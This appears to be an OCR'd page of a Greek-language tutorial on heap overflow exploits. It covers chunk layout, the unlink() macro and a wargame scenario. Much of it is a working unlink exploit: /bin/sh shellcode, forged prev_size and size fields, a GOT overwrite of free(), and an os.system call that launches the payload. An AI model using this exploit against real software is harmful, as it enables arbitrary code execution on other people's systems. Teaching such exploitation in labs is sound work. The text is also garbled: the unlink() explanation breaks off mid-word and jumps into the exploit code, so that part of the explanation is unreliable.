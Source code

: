 ## **8 Υπερχείλιση Σωρού: Βασικά εκμεταλλεύματα**

**Κομμάτι που έχει εκχωρηθεί**

prev\_size |\
size | —Κεφαλίδα\
\*mem | Δεδομένα

**Ελεύθερο κομμάτι**

prev\_size |\
size |\
\*fd | Δείκτης προς το εμπρός κομμάτι\
\*bk | Δείκτης προς το πίσω κομμάτι —Κεφαλίδα\
\*mem | Δεδομένα

Τα ελεύθερα κομμάτια είναι σε μια λίστα διπλά συνδεδεμένη (bin) και δεν μπορούν να υπάρχουν ποτέ δύο ελεύθερα κομμάτια μαζί (συγχωνεύονται)

Στο "size" υπάρχουν bits για να υποδεικνύουν: Αν το προηγούμενο κομμάτι είναι σε χρήση, αν το κομμάτι έχει εκχωρηθεί μέσω του mmap() και αν το κομμάτι ανήκει στον κύριο arena.

Όταν απελευθερώνεται ένα κομμάτι, αν κάποιο από τα γειτονικά είναι ελεύθερο, αυτά συγχωνεύονται μέσω της μακροεντολής unlink() και το μεγαλύτερο νέο κομμάτι περνά στο frontlink() για να εισαχθεί στον κατάλληλο bin.

unlink(){\
BK = P->bk; —> Το BK του νέου chunk είναι αυτό που είχε το προηγούμενο ελεύθερο chunk\
FD = P->fd; —> Το FD του νέου chunk είναι αυτό που είχε το προηγούμενο ελεύθερο chunk\
FD->bk = BK; —> Το BK του επόμενου chunk δείχνει στο νέο chunk\
BK->fd = FD; —> Το FD του προηγο
**shellcode += "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" \\**

**"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" \\**

**"\x80\xe8\xdc\xff\xff\xff/bin/sh";**

**prev\_size = pack("\<I”, 0xfffffff0) #Σημαντικό να είναι το bit που υποδεικνύει ότι το προηγούμενο κομμάτι είναι ελεύθερο να είναι 1**

**fake\_size = pack("\<I”, 0xfffffffc) #-4, ώστε να νομίζει ότι το "size" του 3ου κομματιού είναι 4bytes πίσω (δείχνει στο prev\_size) εκεί όπου ελέγχει αν το 2ο κομμάτι είναι ελεύθερο**

**addr\_sc = pack("\<I", 0x0804a008 + 8) #Στο payload στην αρχή θα βάλουμε 8bytes γεμίσματος**

**got\_free = pack("\<I", 0x08048300 - 12) #Διεύθυνση της free() στο plt-12 (θα είναι η διεύθυνση που θα αντικατασταθεί για να εκτελεστεί το shellcode τη 2η φορά που καλείται η free)**

**payload = "aaaabbbb" + shellcode + "b"\*(512-len(shellcode)-8) #Όπως αναφέρθηκε το payload ξεκινά με 8 bytes γεμίσματος επειδή ναι**

**payload += prev\_size + fake\_size + got\_free + addr\_sc #Τροποποιείται το 2ο κομμάτι, το got\_free δείχνει όπου θα αποθηκεύσουμε τη διεύθυνση addr\_sc + 12**

**os.system("./8.3.o " + payload)**

**unset() απελευθερώνοντας με αντίστροφη σειρά (wargame)**

Έχουμε έλεγχο 3 συνεχόμενων chunks και απελευθερώνονται με αντίστροφη σειρά από την κράτηση.
